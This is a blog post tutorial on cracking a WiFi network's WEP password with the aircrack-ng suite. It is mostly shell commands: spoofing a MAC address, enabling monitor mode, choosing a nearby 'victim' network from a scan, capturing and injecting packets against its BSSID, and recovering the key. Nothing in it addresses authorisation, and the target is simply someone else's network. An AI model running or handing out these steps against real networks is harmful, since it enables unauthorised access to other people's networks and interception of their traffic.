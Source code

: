 ```yaml
---
layout: post
title: "Crack WIFI network's WEP password with Aircrack"
description: "How to crack a WIFI network's WEP password with Aircrack suite"
redirect_from: /article/crack-wifi-network-s-wep-password-with-aircrack/
locale: en
---
```


The first step is to [download](http://www.aircrack-ng.org/) the Aicrack-ng suite.

In order to decrypt the WEP key we have to follow the next simple steps:

First, change your hardware address (MAC):

    ifconfig wlan0 down
    ifconfig wlan0 hw ether 00:11:22:33:44:55

Now, start package monitoring in the wifi interface (peg: `wlan0`), for it, we have to use `airmon-ng` tool:

    airmon-ng start wlan0

At this point we need the data necessary to attack the interested network, we will obtain it with:

    airodump-ng wlan0

It will prompt something like this:

![Airdump Victim Data]({{ site.url }}/assets/posts/airdump-victim-data.png)

This step is only to get the information to attack the net. From all the networks, probably the best choose will be the one with the less power (PWR column). Once we have chosen one of those, we have to remember the blue data, the **BSSID** (MAC address of the Access point), **PWR** (Power of the signal), **CH** (Channel of the network), **ENC** and **CIPHER** (Network security type) and **ESSID** (Access Point name).

Once we have all the data needed to crack the wifi we can start sniffing packets of the interested network. In our case we have selected `WLAN_DF`, in channel 2 with BSSID `00:23:F8:A0:C4:A2`:

    airodump-ng -c 2 -w packets --bssid 00:23:F8:A0:C4:A2 wlan0

At this point we only have to wait to collect about 20000 - 40000 packages, it depends from the network use.

### Optional, packets injection
If our wifi driver supports packet injection we can increase collection speed by using the `aireplay-ng` tool.

    aireplay-ng -1 0 -a 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 -e WLAN_DF wlan0
    aireplay-ng -3 -b 00:23:F8:A0:C4:A2 -h 00:11:22:33:44:55 wlan0

### Getting the network key
Once recollected a good amount of packages (20000 - 40000) we can try to decrypt the key with the final tool, `aircrack-ng`:

    aircrack-ng packets-01.cap
